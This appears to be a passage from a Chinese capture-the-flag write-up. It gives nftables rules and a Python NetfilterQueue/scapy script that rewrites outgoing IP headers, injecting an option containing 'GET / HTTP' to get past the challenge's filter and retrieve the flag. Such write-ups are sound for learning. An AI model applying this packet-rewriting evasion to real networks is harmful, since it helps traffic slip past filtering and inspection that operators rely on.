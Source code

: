 写完运行发现卡死了。毕加思索后恍然大悟：它成功地把我通过局域网到Raspberry Pi的SSH连接屏蔽掉了。从未配出过如此成功的防火墙……好在强行重启一下就恢复原状了。

配置命令：

```sh
sudo apt install openvpn libnetfilter-queue-dev # Debian bookworm版本的包名
sudo openvpn --config hg-guest.ovpn & # 某些网络环境😡
sudo nft -f nft.rules
python -m venv env
source env/bin/activate
pip install scapy NetfilterQueue
sudo $(which python) a.py
```

nft.rules：

```nftables
flush ruleset
table ip firewall {
  chain outgoing {
    type filter hook output priority 0
    policy accept
    tcp dport {18080, 18082} queue num 3
  }
}
```

a.py：

```python
from netfilterqueue import NetfilterQueue, Packet
from scapy.all import *

def f(pkt: Packet) -> None:
    b = bytearray(pkt.get_payload())
    print("before", b)
    hl = b[0] % 16 * 4
    b[0] += 3  # ihl
    b[2] += (b[3] + 12) >> 8  # len
    b[3] = (b[3] + 12) & 0xff
    b[hl:hl] = b"\x02\x0cGET / HTTP"
    packet = IP(b)  # 借scapy算个校验和
    del packet[IP].chksum
    b = raw(packet)
    print("after", b)
    pkt.set_payload(b)
    pkt.accept()

nfqueue = NetfilterQueue()
nfqueue.bind(3, f)
try:
    nfqueue.run()
finally:
    nfqueue.unbind()
```

最后用题目提供的curl命令即可获得flag。

一开始02 0C的那地方写了00 00，不知道为啥不行，理论上第一个00就标记了选项到此结束的。看到一个叫做“Security (defunct)”的选项，就用它了。
